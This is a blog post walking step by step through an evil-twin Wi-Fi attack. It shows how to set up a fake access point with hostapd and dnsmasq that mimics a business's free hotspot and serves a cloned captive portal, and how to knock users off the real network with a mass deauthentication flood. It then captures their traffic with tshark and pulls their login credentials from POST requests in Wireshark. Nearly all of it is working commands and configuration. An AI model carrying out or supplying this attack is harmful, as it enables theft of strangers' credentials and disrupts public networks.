 ```yaml
---
layout: post
comments: true
title:  "Building a Fake Access Point and Using a Captive Portal to Get Login Credentials"
date:   2018-12-23 21:26:27
categories: Kali, DHCP, hostapd, DNS, Apache, Wireshark, HTML, Web Server, Penetration Testing
---
```


 Note: for this project I will presume that you have already cloned a captive portal of an open business network that you usually would see in airports, hotel lobbies, coffee shops, and other venues that offer free Wi-Fi hot spots. Also, I will presume you have a wireless adapter that supports monitor mode and packet injection with Kali Linux installed (or other penetration testing OS installed). Yayy! Now let's move on to the main course of this documentation.

Below I have documented the process on how to manually create a fake Access Point (AP). However, in order to build a fake AP, one needs to understand the main components of a wifi network. These components are:

1. A wifi card (router) in order to broadcast the signal of an AP. (I will use hostapd tool to broadcast the signal)
2. A DHCP server to give IP addresses to clients that connect to our AP. (I will use dnsmasq tool as a DHCP server)
3. A DNS server to handle DNS requests. (I will use dnsmasq tool as a DNS server)
* dnsmasq tool is rather convenient to use, since it can be used as a DHCP and DNS server at the same time!

* To install hostapd and dnsmasq, type the below command in terminal.  
```shell
apt-get install hostapd dnsmasq
```

1. After installing hostapd and dnsmasq, connect your wireless adapter (ifconfig to confirm this). Once adapter is connected do:
```shell
service network-manager stop
```
(Reason to stop network manager is so that it does not prevent the fake AP from broadcasting a wifi signal)

2. Next, we should enable IP forwarding so that packets can flow through the computer without being dropped. Not only that, we must also delete any IP table rules that might interfere with what we are trying to achieve. Hence, the below commands must be entered in the terminal to clear any firewall rules that might be redirecting packets to somewhere else.
```shell
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables --flush
iptables --table nat --flush
iptables --delete-chain
iptables --table nat --delete-chain
iptables -P FORWARD ACCEPT
```
(By default there should not be any IP table rules, however to be on the safe side, if a program modifies and adds IP tables rules then the fake AP will fail, hence the following commands are a precaution.)

3. Next, we will configure dnsmasq to be used as a DHCP server and DNS server. Here, copy the below code and save it in a file called dnsmasq.conf
```shell
#Set the wifi interface
interface=wlan0
#Set the ip range that can be given to clients
dhcp-range=10.0.0.10,10.0.0.100,8h
#Set the gateway IP address
dhcp-option=3,10.0.0.1
#Set dns server address
dhcp-option=6,10.0.0.1
#Redirect all requests to 10.0.0.1
address=/#/10.0.0.1
```
(The first line that says interface can be found by doing ifconfig and this interface is the one that you wireless adapter uses. The second line states that the range is from 10 to 100 and each ip can last for 8 hours. The third line states the IP of wlan0, usually the 1st IP is used for the the gateway/router and the same config is used for the fourth line. The fifth line states to redirect any request to router's IP)

4. In terminal type the following command to start DHCP server and DNS server.
```shell
dnsmasq -C /root/Downloads/fake-ap/dnsmasq.conf
```
(Note: make sure you change the above path to where you saved the dnsmasq.conf file)

5. Next, we will configure hostapd to start fake AP, in order to allow people to connect to it. Here, copy the below code and save it in a file called dnsmasq.conf
```shell
#Set wifi interface
interface=wlan0
#Set network name
ssid=FakeAP
#Set channel
channel=1
#Set driver
driver=nl80211
```
(Note: when you set the network name, make sure it has the same name as the captive portal and you can feel free to add a version to it like "FakeAP V2")

6. In terminal type the following command to start hostapd and to begin broadcasting a signal.
```shell
hostapd /root/Downloads/fake-ap/hostapd.conf -B
```
(Here, -B is used so that it will execute the above command in the background. Also, make sure you change the above path to where you saved the hostapd.conf file)

7. Next, we will configure wlan0 (or whatever interface that your running) to have an IP address of 10.0.0.1
```shell
ifconfig wlan0 10.0.0.1 netmask 255.255.255.0
```
(Note: change interface to the one you are using, in my case its wlan0. The reason we use 10.0.0.1 is because this is the ip address that is used by the dnsmasq.conf and all the requests is configured to go to this IP. Here, 255.255.255.0 address is the most common subnet mask used on computers connected to Internet Protocol (IPv4) networks)

8. Start Web server to launch the cloned captive portal. Hence, when the client clicks on the fake AP the captive portal web page is displayed.
```shell
service apache2 start
```

9. In this step, we will sniff and analyze login credentials that the user enters into the cloned captive portal. However, instead of waiting for client to connect to FakeAP we could use a deauthentication attack on the real captive portal network and lure clients into using the FakeAP. Hence, we will run the following deauthentication attack command in terminal.
```shell
aireplay-ng --deauth 100000 -a (mac address of AP) wlan0
```
Note: in order to find mac address of AP use airodump-ng as follows:
    ```shell
    airodump-ng --band a wlan0
    ```
    
10. By continously sending thousand of deauth packets... it will prevent the user from reconnecting back to the portal. Hence, they will be lured into using our fake captive portal. Now, we can start to sniff the login info either by using Ettercap or MITMF, but for this example I will use Tshark. 
```shell
tshark -i wlan0 -w wifisniff.cap
```
(Note: -i wlan0 is the interface used to sniff data which will be our wireless card and -w wifisniff.cap will be where I store all the sniffed data)

Once a client enters the credential, we can analyze the .cap file using Wireshark. Just simply type *wireshark* in terminal and filter out http and search for a POST request. Eventually you should find the clients credentials in the HTML form :)

<br><br>
**Update - Redirecting Requests to Captive Portal Login Page**

When a client first connects to a captive portal the system will send requests to a specific server depending on the system whether it runs on mac OS, Linux or Windows. If the system gets a response it was expecting then it will think that this is a normal network and it wont do anything.
    However, if the clients system does not get a response it was expecting, it will then think that the network is a captive portal and it will proceed to show the client the captive portal login page.

**Solution for the above issue**

1. Requests sent to www. websites have to be redirected to just the domain name (for example, google.com instead of www.google.com). Therefore, in order to achieve this we have to modify the apache configuration file.
To open the configuration file type the following in terminal:
```shell
leafpad /etc/apache2/sites-enabled/000-default.conf
```
(Note: I am using leafpad text editor to open the configuration file... feel free to use another text editor.)

2. In order to delete just the www part, we need to use rewrite rules to redirect www to just the domain name. In this case we will add a directory tag at the bottom of the configuration file.
    ```shell
    <Directory "/var/www/html">  <!-- /var/www/html is the location of where my website is stored-->
        RewriteEngine On         <!--enables rewrite engine-->
        RewriteBase /            <!--rewrite base is in web root-->
        RewriteCond %{HTTP_HOST} ^www\.(.*)$ [nc]   <!--rewrite condition works based on Regex-->
        RewriteRule ^(.*)$ http://%1/$1 [R=301,L]
    </Directory>
    ```
(Note: paste the above code, save and close text editor)

3. Restart apache web server in terminal.
```shell
service apache2 restart
```

4. After restarting web server and if you test out the FakeAP network, you will notice a web browser pop up. However, this browser will show a 404 error saying "Not Found" (the reason why a 404 error is showed is because the url is altered by the the system OS.) To fix this, we will configure the web server so that if a file is not found it will redirect the person to the home page. In our case it would be to redirect a 404 error to the cloned captive portal login page. So in terminal type the following command and feel free to use your preferred text editor:
```shell
leafpad /etc/apache2/sites-enabled/000-default.conf
```

5. On the top of the configuration file type in the following:
```html
ErrorDocument 404 /
```
(Note: Here / is used to redirect to web root) Don't close the text editor just yet... see next step!

6. Also, just to be on the safe side at the bottom of the configuration file inside the <Directory> tag we will put the following rewrite rules. This step is the same as the above step but it is used to make sure that it works with any smart phone.
```html
RewriteCond %{REQUEST_FILENAME} !-f
RewriteCond %{REQUEST_FILENAME} !-d
RewriteCond ^(.*)$ / [L,QSA]
```

7. Restart apache web server in terminal. Now, your page should pop up in a web browser when a client clicks on the FakeAP network.
```shell
service apache2 restart
```    
